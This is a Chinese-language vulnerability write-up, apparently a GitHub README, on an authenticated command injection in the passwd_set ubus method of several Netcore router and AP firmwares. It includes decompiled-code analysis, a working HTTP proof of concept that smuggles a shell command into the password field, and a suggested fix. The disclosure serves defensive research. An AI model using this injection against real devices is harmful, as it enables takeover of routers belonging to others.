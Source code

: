 # Netcore磊科路由器、无线AP产品存在授权后的任意命令注入

## 一、涉及产品及固件下载地址

NBR1005GPEV2：https://www.netcoretec.com/service-support/download/firmware/2707.html

B6V2：https://www.netcoretec.com/service-support/download/firmware/2703.html

COVER5：https://www.netcoretec.com/service-support/download/firmware/2680.html

NAP930（存疑）：https://www.netcoretec.com/service-support/download/firmware/2704.html

NAP830（存疑）：https://www.netcoretec.com/service-support/download/firmware/2708.html

NBR100V2：https://www.netcoretec.com/service-support/download/firmware/2706.html

NBR200V2：https://www.netcoretec.com/service-support/download/firmware/2705.html


因硬件模拟有限（使用qemu模拟和openwrt的malta内核），无法对NAP930和NAP830进行模拟验证，但其代码中确实存在该漏洞。**如需展示模拟步骤，可告知我补充。**

## 二、漏洞成因

该系列路由器固件使用 `uhttpd` + `ubus`架构

 **uhttpd（Web服务器）** ：

* 监听 `80` 端口（HTTP），接收 `POST /ubus` 请求。
* 解析请求头，确认 `Content-Type` 为 `application/x-www-form-urlencoded`，但实际负载为 JSON（不规范但常见）。
* 将请求转发给 `ubus` RPC 服务（通常通过 `ubus` 的 Unix Socket 或 CGI 接口）。

输入ubus list命令可以看到ubus注册的服务

![1746600757491](image/README/1746600757491.png)

定位到routerd，即/usr/bin/routerd文件，在data段找到该服务注册的一系列方法的回调函数，passwd_set方法对应回调函数sub_416260

![1746600953768](image/README/1746600953768.png)

在回调函数sub_416260中，首先调用 `blobmsg_parse` 解析 Blob 格式数据（OpenWrt 的二进制 JSON 格式）。

![1746601012709](image/README/1746601012709.png)

还原解析式所用结构体，得到以下字段映射：

* `v19` → `user`（用户名）
* `v20` → `pwd`（密码） 后面还有v16=v20
* `v21` → `by`（请求中未提供时值为空）

![1746601107563](image/README/1746601107563.png)

从 `v19`中提取用户名（`command`），跳过Blobmsg头部。

遍历用户名中的每个字符，检查是否满足以下条件：

* 字符是 `_`（ASCII `0x5F`） **或** 字母数字（`isalnum`函数）。

若发现非法字符，记录日志并返回错误（`ulog`）。

![1746601255662](image/README/1746601255662.png)

从 `v16`中提取密码值（`v17`），跳过Blobmsg头部。此处**无任何合法性检查** ，直接传递给 `passwd_set_api`。即执行passwd_set_api(usrname,password)

此处接下去如果result返回0，并且用户名为"root"、v15（by字段的字符串）不为"ac"，则直接将v17写入到uci set auto_ac.auto_ac.passwd=%s;uci commit auto_ac中，然后执行system，此处存在**命令注入**漏洞

![1746601374783](image/README/1746601374783.png)

在passwd_set_api中，也并没有对密码进行检测（a2）

![1746601489477](image/README/1746601489477.png)

如果密码（a2）存在，相当于执行

snprintf(v10, 0x80u, "passwd %s", a1);  // v10 = "passwd root"
snprintf(v11, 0x80u, "%s\n", a2);       // v11 = "admin123\n"
v4 = popen(v10, "w");                   // 打开命令管道（写入模式）

然后写入密码

v5 = strlen(v11);
fwrite(v11, v5, 1u, v4);  // 第一次写入密码
v6 = strlen(v11);
fwrite(v11, v6, 1, v4);   // 第二次写入密码（确认密码）

成功后返回0，即成功抵达上面命令注入的漏洞处。

![1746601700013](image/README/1746601700013.png)

## 三、POC解释

POST /ubus HTTP/1.1
Host: 192.168.50.2
Content-Length: 163
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.50.2
Referer: http://192.168.50.2/guide/guide.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"jsonrpc":"2.0","id":22,"method":"call","params":["a9c61fc83080b13ded7512db83c9b123","routerd","passwd_set",{"user":"root","pwd":"admin123;mkdir -p /tmp/test1"}]}

将请求内容中的params字段中第一个值(sid)："a9c61fc83080b13ded7512db83c9b123"替换成登录后的拦截得到的sid，mkdir -p /tmp/test1可换成任意命令

远程获得shell演示：

![1746603016270](image/README/1746603016270.png)

## 四、建议解决办法

同样对passwd限制仅下划线和数字及字母
